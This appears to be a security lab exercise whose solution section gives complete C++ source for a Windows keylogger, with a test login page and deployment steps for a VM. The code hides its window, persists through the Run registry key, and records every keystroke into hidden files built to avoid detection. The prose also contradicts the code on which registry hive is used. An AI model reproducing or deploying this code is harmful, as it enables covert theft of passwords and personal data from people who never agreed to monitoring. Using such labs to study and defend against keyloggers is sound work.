 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    #include <ctime>      // For timestamp
    #include <sstream>    // For constructing filename
    #include <fstream>    // For file operations
    #include <string>     // For string manipulation
    
    using namespace std;
    
    void AddToStartup() {
        // Get the current executable path using the wide-character version of GetModuleFileName
        wchar_t filePath[MAX_PATH];
        GetModuleFileNameW(NULL, filePath, MAX_PATH);  // Get the path of the current executable
    
        HKEY hKey;
        // Create or open the registry key for startup (HKEY_CURRENT_USER means it will only affect the current user)
        LONG createStatus = RegCreateKeyW(HKEY_CURRENT_USER, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    
        if (createStatus == ERROR_SUCCESS) {
            // Set the registry value to add the executable to the startup list
            LONG status = RegSetValueExW(hKey, L"MyKeylogger", 0, REG_SZ, (BYTE*)filePath, (wcslen(filePath) + 1) * sizeof(wchar_t));
            
            if (status == ERROR_SUCCESS) {
                cout << "Keylogger successfully added to startup!" << endl;
            } else {
                cerr << "Error setting registry value!" << endl;
            }
    
            // Close the registry key handle
            RegCloseKey(hKey);
        } else {
            cerr << "Error creating/opening registry key!" << endl;
        }
    }
    
    string CreateDynamicLogFile() {
        // Generate a dynamic file name based on timestamp
        time_t now = time(NULL);
        struct tm* localTime = localtime(&now);
    
        stringstream filename;
        filename << "log_"
                 << localTime->tm_year + 1900 << "_"
                 << (localTime->tm_mon + 1) << "_"
                 << localTime->tm_mday << "_"
                 << localTime->tm_hour << "_"
                 << localTime->tm_min << "_"
                 << localTime->tm_sec << ".txt"; // Second
    
        return filename.str();
    }
    
    void HideLogFile(const string& filename) {
        DWORD attributes = GetFileAttributes(filename.c_str());
        if (attributes == INVALID_FILE_ATTRIBUTES) {
            cerr << "Error getting file attributes for " << filename << endl;
            return;
        }
    
        // Set file attributes to hidden
        if (SetFileAttributes(filename.c_str(), attributes | FILE_ATTRIBUTE_HIDDEN)) {
            cout << "Successfully set file to hidden: " << filename << endl;
        } else {
            cerr << "Failed to set file to hidden: " << filename << endl;
        }
    }
    
    int Save(int _key, const char* file) {
        ofstream OUTPUT_FILE(file, ios::app);
        if (!OUTPUT_FILE.is_open()) {
            cerr << "Error opening file!" << endl;
            return -1;
        }
    
        // Save key inputs to file
        switch (_key) {
            case VK_SHIFT: OUTPUT_FILE << "[SHIFT]"; break;
            case VK_BACK: OUTPUT_FILE << "[BACKSPACE]"; break;
            case VK_LBUTTON: OUTPUT_FILE << "[L_CLICK]"; break;
            case VK_RBUTTON: OUTPUT_FILE << "[R_CLICK]"; break;
            case VK_RETURN: OUTPUT_FILE << "[ENTER]"; break;
            case VK_TAB: OUTPUT_FILE << "[TAB]"; break;
            case VK_ESCAPE: OUTPUT_FILE << "[ESCAPE]"; break;
            case VK_CONTROL: OUTPUT_FILE << "[CTRL]"; break;
            case VK_MENU: OUTPUT_FILE << "[ALT]"; break;
            case VK_CAPITAL: OUTPUT_FILE << "[CAPS LOCK]"; break;
            case VK_SPACE: OUTPUT_FILE << "[SPACE]"; break;
            default: OUTPUT_FILE << (char)_key;
        }
    
        OUTPUT_FILE.close();
        HideLogFile(file);
    
        return 0;
    }
    
    int main() {
        // Hide the console window
        FreeConsole();
    
        // Copy the executable to the Startup folder (ensures persistence)
        AddToStartup(); // Using the updated AddToStartup function
    
        // Create and hide the log file
        string logFilename = CreateDynamicLogFile();
        cout << "Log file created: " << logFilename << endl;
    
        ofstream logFile(logFilename.c_str());
        if (logFile.is_open()) {
            logFile.close();
        } else {
            cerr << "Error creating log file!" << endl;
            return -1;
        }
    
        HideLogFile(logFilename);
    
        char i;
        while (true) {
            Sleep(10); // Reduce CPU usage
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, logFilename.c_str()); // Save key presses to the log file
                }
            }
        }
    
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances <br/>
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
   <br/>
   If rebooting the VM does not cause the keylogger to autorun on startup, a manual fix is to press `Win + R` key, and enter `shell:startup`. This will bring you to the folder that stores programs to run on startup. Create a shortcut of `keylogger.exe` and save it here
   ![image](https://github.com/user-attachments/assets/e55bf18f-e6b2-4b26-bbd2-d00a8888b556)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
